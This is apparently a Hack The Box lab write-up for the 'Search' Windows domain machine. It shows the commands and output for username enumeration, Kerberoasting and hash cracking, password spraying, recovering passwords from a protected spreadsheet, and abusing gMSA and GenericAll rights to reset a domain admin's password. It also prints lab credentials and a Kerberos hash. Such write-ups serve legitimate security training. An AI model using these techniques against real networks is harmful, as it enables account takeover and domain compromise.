




# HTB - Search

#### Ip: 10.10.11.129
#### Name: Search
#### Rating: Hard

----------------------------------------------------------------------


### Enumeration

Lets kick things off by using Nmap to scan all TCP ports to see what's open on this box:

```text
┌──(ryan㉿kali)-[~/HTB/Search]
└─$ sudo nmap -p-  --min-rate 10000 10.10.11.129               
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 14:37 CDT
Nmap scan report for 10.10.11.129
Host is up (0.068s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
8172/tcp  open  unknown
9389/tcp  open  adws
49667/tcp open  unknown
49675/tcp open  unknown
49676/tcp open  unknown
49700/tcp open  unknown
49716/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.44 seconds
```

Lets dig a bit deeper by scanning these ports with the `-sC` and `-sV` flags to use default scripts and to enumerate versions:

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Search &mdash; Just Testing IIS
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-07-14 19:42:48Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2023-07-14T19:44:18+00:00; 0s from scanner time.
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2023-07-14T19:44:18+00:00; 0s from scanner time.
| tls-alpn: 
|_  http/1.1
|_http-title: Search &mdash; Just Testing IIS
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-07-14T19:44:18+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2023-07-14T19:44:18+00:00; 0s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-07-14T19:44:18+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
8172/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2023-07-14T19:44:18+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WMSvc-SHA2-RESEARCH
| Not valid before: 2020-04-07T09:05:25
|_Not valid after:  2030-04-05T09:05:25
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
49716/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-07-14T19:43:40
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.17 seconds
```

Before getting started digging into the box, I'll add search.htb and RESEARCH to the `/etc/hosts` file.


Navigating to the site on port 80 we find a website, mostly filled in with lorem ipsum.


Taking a look at the About Us page we can find a list of possible usernames. The trouble is that we still don't know what naming convention the company is using for usernamers. It could be just first names, first.last name, first_inital.last name, etc.


Lets make a list with these names using some of the most populare naming conventions.

```text
┌──(ryan㉿kali)-[~/HTB/Search]
└─$ cat search_users      
keelylyons
klyons
keely.lyons
k.lyons
daxsantiago
dsantiago
dax.santiago
d.santiago
sierrafrye
sfrye
sierra.frye
s.frye
kylastewart
kstewart
kyla.stewart
k.stewart
kaiaraspencer
kspencer
kaiara.spencer
s.spencer
davesimpson
dsimpson
dave.simpson
d.simpson
benthompson
bthompson
ben.thompson
b.thompson
chrisstewart
cstewart
chris.stewart
c.stewart
```

Taking this list I tried Impacket-GetUserSPN, to see if I could drop some hashes. While there was no luck dropping any hashes, we were able to pinpoint the naming convention for user names, so we're on the right track!


Making a more accurate usernames list:

```text
┌──(ryan㉿kali)-[~/HTB/Search]
└─$ cat users.txt   
keely.lyons
dax.santiago
sierra.frye
kyla.stewart
kaiara.spencer
ben.thompson
chris.stewart
```

Ok great. We've got a list of potential usernames, but still aren't sure what to do with them. Not finding anything in LDAP or in SMB, I turned back to the website.

Looking around for a long while and not seeing anything of interest, until this particular picture caught my eye:


Here we have a potential new user name (hope.sharp), as well as what looks like a password. I'll add the new username to the list and see if this password works anywhere. 

```text
┌──(ryan㉿kali)-[~/HTB/Search]
└─$ echo hope.sharp >> users.txt 
```


Nice! That indeed was the password for hope.sharp!


Armed with these credentials we can return to Impacket-GetUserSPN and see if we can drop any hashes:

Nice!


```text
┌──(ryan㉿kali)-[~/HTB/Search]
└─$ cat >> web_svc_hash                                            
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$dad7e77b5584beef4d883205260ece78$f73393a54f8008e3dacf5fa35986b025ad6d0eb33b45f4357e20fee292e5bffd159038d9c14b9ef8219a2d8a60e2f60511a74004429b4d7b3429b39623ee964c9d8bbffae481d5eecd61d993410e2f4edca8f5702481071e96a1b162c917bcd86f12aba0b91976cf06f349c634eeae429e775149679ebdea5e00ccd445e8f54ccdb53f386a280fa3ebba9efb2d36a6e0f0f75e0880ee6ef7ae213105799d9987994f9ea37f9199b89ce6c713cf9a4def726be76a283298869a2ce1a7455b857781aa564ab864ff4752a0db7f3b6d5bc8297d54fecec444dc52db219bc3026836382523dd728a758389014566109afd141c437bd67c437d46fdc6c1c6c1ca9341e3418c3316b6a729f69ecc9b2aabc01c3887ec7a54afa146784724f10334b41c2248270933514daca7f5a50ec85c7b48d5fe3cb7950c47537962cb2ba9eb6a28437156cdf41b4d3043cf8375765386b4ee2dfb3984f3a1e1e2d05a0a258d06bd4ab8d840edde9bdfb98861cc8338385681efa8036d12e95b791dc0c58e703edee674b62c0c215d4aa131a7622bc0c45c46ef631c97335eb61764d7465bc22172d739f4cbe0bc8a057b7bf575832fb6eb1e569dc2151567a0d803db24e89788c6e675f4f6fe4d9947c2214b2b1d14b86b5873820b6a2b985740b8d3806795b3ecf05c98eb84af338d2394124f17292a10df6ee3e26979a6592794b37b8ddd7759a552dcde94951e1040d6bee3548c183754adc8adb66d098a10c006299a5cabe0228fa721cdc9fdefe7407284f70e15efe9fe398c466c6190e12b9b202a8464024c211c54d6f27229bb1aff6dd3cf05d17549a7c4046e712c589b7c0b41ed1059f2368f835d2ec0501a6f40941fd99b8f2b853422f46a1ba15029baf7bb9065502a57bffef68f91d887a6930d761de095f5e1aec4a7ea50270cc1a60d4401a8686bae08b4f367178f22b3dbd93433a94f5f4efd8cdf83bb115d3ad469b38aa6b3940679755e0ffb999f7e2960c08e2bbbd2d9030e04426705190608450ba2f077197c0f004378cee5d9014677844f1d3db441be8c7300bd9c9831839314bcab4baafdaabb61175f61d7e435633d3e95e249cd310a016274b52e081f2a2d5f033b512fe643b0b0a024cc57ef865bddaffddfb7f7e7a327693f2b7c722f4c580b52ba032e5aa2f9d49eee58327167e48e8684b97fd705cc03550565fe1d15b26e3b06c548306308f34d2befcb285c58f57e9416608f9560a57b9f453fceae3bbdc6d92d573b1b4cf0649dab3f364b2471b05d0b495c3a000f80d4fdda8fec615a2dd5c146b218484dbf284308183e9dfd02304232cae07b0292833ea8c3071f48142a800b0e13d630c3d0b4b5924f38a7351317352436fc9be4fc5cd671338c5f7625eecef415e5870325579c8d7abf830fc7156de3732edd1d40246d68ebdee22a528bbbd739697a19bdbbc0a458232b1fb5aa3923cd
```

Lets try and crack this using JohntheRipper


Cool, John was able to easily crack the hash. 

`web_svc:@3ONEmillionbaby`

Using CrackmapExec it looks like we have access to a few SMB shares now. Lets see what we can find.


Looking in the RedirectedFolders$ share we find what appear to be even more usernames:

```text
┌──(ryan㉿kali)-[~/HTB/Search]
└─$ smbclient -U 'web_svc' //10.10.11.129/RedirectedFolders$
Password for [WORKGROUP\web_svc]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  Dc        0  Fri Jul 14 15:26:32 2023
  ..                                 Dc        0  Fri Jul 14 15:26:32 2023
  abril.suarez                       Dc        0  Tue Apr  7 13:12:58 2020
  Angie.Duffy                        Dc        0  Fri Jul 31 08:11:32 2020
  Antony.Russo                       Dc        0  Fri Jul 31 07:35:32 2020
  belen.compton                      Dc        0  Tue Apr  7 13:32:31 2020
  Cameron.Melendez                   Dc        0  Fri Jul 31 07:37:36 2020
  chanel.bell                        Dc        0  Tue Apr  7 13:15:09 2020
  Claudia.Pugh                       Dc        0  Fri Jul 31 08:09:08 2020
  Cortez.Hickman                     Dc        0  Fri Jul 31 07:02:04 2020
  dax.santiago                       Dc        0  Tue Apr  7 13:20:08 2020
  Eddie.Stevens                      Dc        0  Fri Jul 31 06:55:34 2020
  edgar.jacobs                       Dc        0  Thu Apr  9 15:04:11 2020
  Edith.Walls                        Dc        0  Fri Jul 31 07:39:50 2020
  eve.galvan                         Dc        0  Tue Apr  7 13:23:13 2020
  frederick.cuevas                   Dc        0  Tue Apr  7 13:29:22 2020
  hope.sharp                         Dc        0  Thu Apr  9 09:34:41 2020
  jayla.roberts                      Dc        0  Tue Apr  7 13:07:00 2020
  Jordan.Gregory                     Dc        0  Fri Jul 31 08:01:06 2020
  payton.harmon                      Dc        0  Thu Apr  9 15:11:39 2020
  Reginald.Morton                    Dc        0  Fri Jul 31 06:44:32 2020
  santino.benjamin                   Dc        0  Tue Apr  7 13:10:25 2020
  Savanah.Velazquez                  Dc        0  Fri Jul 31 07:21:42 2020
  sierra.frye                        Dc        0  Wed Nov 17 19:01:46 2021
  trace.ryan                         Dc        0  Thu Apr  9 15:14:26 2020

		3246079 blocks of size 4096. 593517 blocks available
```

After saving the copy/paste to a file called names, I can add the usernames to a file called new_users with awk:

```text
┌──(ryan㉿kali)-[~/HTB/Search]
└─$ cat names | awk -F' ' '{print $1}' > new_users.txt
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Search]
└─$ cat new_users.txt                                 
abril.suarez
Angie.Duffy
Antony.Russo
belen.compton
Cameron.Melendez
chanel.bell
Claudia.Pugh
Cortez.Hickman
dax.santiago
Eddie.Stevens
edgar.jacobs
Edith.Walls
eve.galvan
frederick.cuevas
hope.sharp
jayla.roberts
Jordan.Gregory
payton.harmon
Reginald.Morton
santino.benjamin
Savanah.Velazquez
sierra.frye
trace.ryan
```
After snooping around SMB for a bit and realizing the web_svc doesn't have access to much, I decided to try the cracked password again, this time against the larger username list.


Ok cool, looks like edgar.jacobs is also using that password. 

Rather than combing through all the open shares individually (there's a lot!) I'll use the spider_plus tool in crackmapexec:

```text
┌──(ryan㉿kali)-[~/HTB/Search]
└─$ crackmapexec smb search.htb -u edgar.jacobs -p '@3ONEmillionbaby' -M spider_plus
SMB         search.htb      445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         search.htb      445    RESEARCH         [+] search.htb\edgar.jacobs:@3ONEmillionbaby 
SPIDER_P... search.htb      445    RESEARCH         [*] Started spidering plus with option:
SPIDER_P... search.htb      445    RESEARCH         [*]        DIR: ['print$']
SPIDER_P... search.htb      445    RESEARCH         [*]        EXT: ['ico', 'lnk']
SPIDER_P... search.htb      445    RESEARCH         [*]       SIZE: 51200
SPIDER_P... search.htb      445    RESEARCH         [*]     OUTPUT: /tmp/cme_spider_plus
```

This will show us the contents or each share/ folder without us having to manually go into each one for enumeration. We can then take a look at the contents and go grab interesting looking files manually. (Note: there's a way to just copy all files en masse to your machine locally using the `-o READ_ONLY=false` flag, but I prefer not to copy over so many unneccesary files.)

I can then view the ouput using:

```text
┌──(ryan㉿kali)-[~/HTB/Search]
└─$ cat /tmp/cme_spider_plus/search.htb.json | jq '. |map_values(keys)'
```

Looking through the shares we see a few interesting things in the "RedirectedFolders$" share. Firstly, we see that the user.txt flag is on sierra.frye's desktop (we'll keep that in mind once we actually get on the box, and secondly, there's an interesting Excel file on edgar.jacob's desktop called Phishing_Attempt.xlsx, which is of obvious interest to a pentester/ hacker. Lets check that file out by logging into the share and using the `get` command to download it locally. 


Interestingly, after opening the file in LibreOffice, we see names (first and last) as well as usernames, and it appears that Column C is actually hidden.


If we try to manually expand the column we get an error message:


After extracting the file and removing the SheetData protection tag, I was able to rezip the file and open it back in libreoffice.


Nice! We now have access to the hidden column:


Lets add these passwords to a file called passwords.txt

We can now use CrackmapExec again to try and brute force passwords:

```text
┌──(ryan㉿kali)-[~/HTB/Search]
└─$ crackmapexec smb search.htb -u new_users.txt -p passwords.txt
```

Success! we found sierra.frye's password!


`sierra.frye:$$49=wide=STRAIGHT=jordan=28$$18`

Unfortunately we still can't seem to login the machine itself with these credentials yet.

Lets check out SMB again with these new credentials. 

Interesting, in sierra.frye's Downloads folder there is a Backups file with some interesting files. Let's bring them back to our machine locally for analysis:

```text
smb: \sierra.frye\Downloads\Backups\> ls
  .                                 DHc        0  Mon Aug 10 15:39:17 2020
  ..                                DHc        0  Mon Aug 10 15:39:17 2020
  search-RESEARCH-CA.p12             Ac     2643  Fri Jul 31 10:04:11 2020
  staff.pfx                          Ac     4326  Mon Aug 10 15:39:17 2020

		3246079 blocks of size 4096. 593868 blocks available
smb: \sierra.frye\Downloads\Backups\> get search-RESEARCH-CA.p12 
getting file \sierra.frye\Downloads\Backups\search-RESEARCH-CA.p12 of size 2643 as search-RESEARCH-CA.p12 (9.1 KiloBytes/sec) (average 9.1 KiloBytes/sec)
smb: \sierra.frye\Downloads\Backups\> get staff.pfx 
getting file \sierra.frye\Downloads\Backups\staff.pfx of size 4326 as staff.pfx (14.4 KiloBytes/sec) (average 11.8 KiloBytes/sec)
```

I can use pfx2john to get these files ready for brute forcing:


Nice, John was able to succesffuly crack both files passwords:



I can now add the certificate to Firefox and enter the passphrase to use it:



This allows me to navigate to https://search.htb/staff where I can canfirm the certificate is working:


We can then use sierra.frye's crednetials to login to a web shell session.


From here I can grab the user.txt flag:


Not finding much in terms of escalating my privileges, I decided to try bloodhound-python to see if I could find a path to administrator. Looking through the findings, it seems sierra.frye is a member of ITSEC@search.htb who has ReadGMSAPassword privileges over BIR-ADFS-GMSA@search.htb who in turn has GenericAll privileges over Tristan.Davies, who is in the domain admins group. 

First I'll need to get the GMSA password from the machine:

```text
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp

(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```



With that done, I can now reset Tristan's password:

```text
$cred = New-Object System.Management.Automation.PSCredential BIR-ADFS-GMSA, $SecPass
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password123!' -force)} -Credential $cred
```


Cool, now that we've done that all we need to do is login and grab the final flag. For this I'll use impacket-wmiexec:



From here i can grab the final flag from the Administrator's desktop:


And that's that! Thanks for following along!

-Ryan

----------------------------------------------------------------------------------------------


